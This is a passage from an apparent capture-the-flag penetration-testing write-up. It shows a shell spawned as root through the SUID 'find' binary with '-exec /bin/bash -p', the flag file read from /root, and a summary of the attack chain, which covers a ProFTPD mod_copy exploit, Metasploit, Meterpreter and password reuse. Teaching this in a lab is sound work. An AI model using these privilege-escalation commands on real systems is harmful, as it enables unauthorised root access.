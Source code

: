 **Analysis**: The `/usr/bin/find` binary with SUID permissions is particularly interesting. When a SUID binary runs, it executes with the permissions of its owner (root in this case). The `find` command's `-exec` flag allows arbitrary command execution, creating a privilege escalation opportunity.

#### Step 2: Exploiting Find for Root Access

Using find's `-exec` flag to spawn a privileged shell:

```bash
/usr/bin/find . -exec /bin/bash -p \; -quit
```

**Command Breakdown:**
- `/usr/bin/find .` - Execute find command (with SUID permissions)
- `-exec /bin/bash -p` - Execute bash with `-p` flag (preserves SUID privileges)
- `\;` - Terminates the `-exec` command
- `-quit` - Exit after first match

**Privilege Escalation Success:**
```bash
whoami
# root
```

Root access achieved. The `-p` flag on bash is crucial here - it prevents bash from dropping the elevated privileges that come from the SUID bit.

#### Step 3: Final Flag Retrieval

Navigating to the root home directory:

```bash
cd /root
ls
cat flag4.txt
```

**Flag 4 Content:**
```
FLAG4{6be1886437f946ac851b2d6b810a7a74}
```

🚩 **Flag 4**: `FLAG4{6be1886437f946ac851b2d6b810a7a74}`

---

## Attack Chain Summary

This exercise demonstrated a complete penetration testing methodology:

### Target 1 Attack Flow:
1. **Port Scanning** - Identified ProFTPD 1.3.5 and Apache services
2. **Vulnerability Research** - Found mod_copy exploit for ProFTPD
3. **Web Root Discovery** - Analyzed default page to determine correct path
4. **Initial Exploitation** - Used Metasploit to gain command shell
5. **Shell Upgrade** - Upgraded to Meterpreter for stability
6. **Local Enumeration** - Discovered hidden service on port 8888
7. **Password Reuse** - Used hint from Flag 1 to access local service
